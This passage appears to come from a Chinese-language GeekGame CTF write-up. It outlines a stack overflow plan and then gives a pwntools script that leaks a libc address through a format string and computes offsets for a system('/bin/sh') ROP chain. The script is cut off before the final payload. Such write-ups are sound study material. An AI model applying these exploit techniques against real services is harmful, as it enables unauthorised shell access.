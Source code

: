 + 先读入一个较长的字符串，覆盖返回地址，跳转到 `main` 函数中间，并设置栈顶为 `__isoc99_scanf` 的 GOT 项
+ 用短字符串泄露 `__isoc99_scanf` 的地址，查询 `libc.so.6`，得到 `libc` 的基址以及 `libc` 中的函数地址
+ 再读入一个短字符串
+ 覆盖返回地址，用 `libc` 中的 gadget 设置 `rdi` 指向 `/bin/sh`，再跳转到 `system` 函数

<details open>
<summary>代码</summary>



```python
from pwn import *
from icecream import ic

# sh = process('./challenge2')
file = ELF('./challenge2')

sh = remote('prob09.geekgame.pku.edu.cn', 10011)

sh.sendlineafter(
    'Please input your token: ',
    '419:MEUCIAJK6pgIYBAyoFwq0WANA1qSkViRLHOVsB2NajlbxhH9AiEAzmCTUCGKE9DnSt61ANO8cw2GpWE6Zj-1iFuTRm8E4Vg=')

isoc99_scanf_got = file.got['__isoc99_scanf']
ic(hex(isoc99_scanf_got))

mainAddress = file.symbols['main']
main22 = mainAddress + 22
ic(hex(mainAddress))

payload1 = b'1' * 56 + main22.to_bytes(8, 'little') + isoc99_scanf_got.to_bytes(8, 'little')
sh.sendlineafter('please enter your flag~(less than 0x20 characters)', payload1)

payload2 = b'%8x.' * 5 + b'<%s>'
sh.sendlineafter('please enter your flag~(less than 0x20 characters)', payload2)

sh.recvline()
addressLine = sh.recvline()
ic(addressLine)

scanfAddressStr = addressLine.split(b'<')[1].split(b'>')[0]
ic(len(scanfAddressStr))
scanfAddress = int.from_bytes(scanfAddressStr + b'\x00\x00', 'little')

libcScanfOffset = 0x62110
libcSystemOffset = 0x50d60
libcBinShOffset = 0x1d8698
libcPopRdiRetOffset = 0x2a3e5

libcBaseAddress = scanfAddress - libcScanfOffset
libcSystemAddress = libcBaseAddress + libcSystemOffset
libcBinShAddress = libcBaseAddress + libcBinShOffset
libcPopRdiRetAddress = libcBaseAddress + libcPopRdiRetOffset

ic(hex(scanfAddress), hex(libcBaseAddress))
ic(hex(libcSystemAddress), hex(libcBinShAddress), hex(libcPopRdiRetAddress))


def check(s):
    for i in s:
        if i == 0x20 or i == 0x09 or i == 0x0A or i == 0x0D or i == 0x0B or i == 0x0C:
            ic(hex(i))


plt = file.plt
```